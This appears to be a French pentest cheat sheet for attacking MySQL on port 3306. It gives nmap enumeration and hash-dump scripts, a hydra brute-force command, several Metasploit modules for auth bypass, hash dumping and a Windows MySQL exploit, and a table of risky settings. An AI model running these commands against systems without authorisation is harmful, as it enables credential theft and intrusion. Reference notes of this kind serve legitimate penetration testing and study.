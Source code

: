 Base de données SQL, port 3306, TCP
### Enumération                                                                                        

```bash
nmap -sV -p 3306 --script mysql-audit,mysql-databases,mysql-dump-hashes,mysql-empty-password,mysql-enum,mysql-info,mysql-query,mysql-users,mysql-variables,mysql-vuln-cve2012-2122 $ip 
```

---
### Brute force

```bash
hydra -l monUser -P /usr/share/seclists/Passwords/xato-net-10-million-passwords-1000000.txt $ip mysql
```

---
### Metasploit

```
auxiliary/scanner/mysql/mysql_version
auxiliary/scanner/mysql/mysql_authbypass_hashdump
auxiliary/scanner/mysql/mysql_hashdump 
auxiliary/admin/mysql/mysql_enum 
auxiliary/scanner/mysql/mysql_schemadump  
exploit/windows/mysql/mysql_start_up 
```

Brute force user/password:

```
auxiliary/scanner/mysql/mysql_login
```

---
### Configuration potentiellement dangereuse

| Settings           |                                                  Description                                                 |
| ------------------ | :----------------------------------------------------------------------------------------------------------: |
| user               |                                Sets which user the MySQL service will run as.                                |
| password           |                                     Sets the password for the MySQL user.                                    |
| admin\_address     |       The IP address on which to listen for TCP/IP connections on the administrative network interface.      |
| debug              |                            This variable indicates the current debugging settings                            |
| sql\_warnings      | This variable controls whether single-row INSERT statements produce an information string if warnings occur. |
| secure\_file\_priv |                This variable is used to limit the effect of data import and export operations.               |
